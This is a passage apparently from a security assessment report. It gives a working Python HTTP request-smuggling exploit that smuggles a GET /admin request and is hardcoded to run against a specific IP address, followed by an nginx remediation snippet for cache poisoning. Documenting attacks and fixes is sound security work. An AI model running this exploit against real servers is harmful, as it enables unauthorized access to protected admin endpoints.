 ### 💥 **Scenario 2: HTTP Smuggling Exploitation**
```python
#!/usr/bin/env python3
# Advanced HTTP request smuggling exploit

import socket
import time

def exploit_smuggling(target_ip, target_port=80):
    print("🔥 HTTP SMUGGLING EXPLOIT INITIATED")
    
    # Smuggling payload
    smuggled_request = (
        "POST / HTTP/1.1\r\n"
        "Host: 172.67.68.228\r\n"
        "Content-Length: 44\r\n"
        "Transfer-Encoding: chunked\r\n"
        "\r\n"
        "0\r\n"
        "\r\n"
        "GET /admin HTTP/1.1\r\n"
        "Host: 172.67.68.228\r\n"
        "X-Smuggled: true\r\n"
        "\r\n"
    )
    
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target_ip, target_port))
    sock.send(smuggled_request.encode())
    
    response = sock.recv(4096)
    print(f"💀 Smuggling response: {response.decode()}")
    
    sock.close()
    print("🎯 HTTP smuggling exploit completed")

# Execute exploit
exploit_smuggling("172.67.68.228")
```

## 🛡️ **REMEDIATION RECOMMENDATIONS**

### 🚨 **IMMEDIATE ACTIONS (CRITICAL):**

#### **Cache Poisoning Mitigation:**
```nginx
# Nginx configuration fix
server {
    # Strict host header validation
    if ($host !~ ^(legitimate-domain\.com|www\.legitimate-domain\.com)$ ) {
        return 444;
    }
    
    # Cache key normalization
    proxy_cache_key $scheme$proxy_host$request_uri;
    
    # Header sanitization
    proxy_set_header Host $host;
    proxy_hide_header X-Cache-Key;
}
```
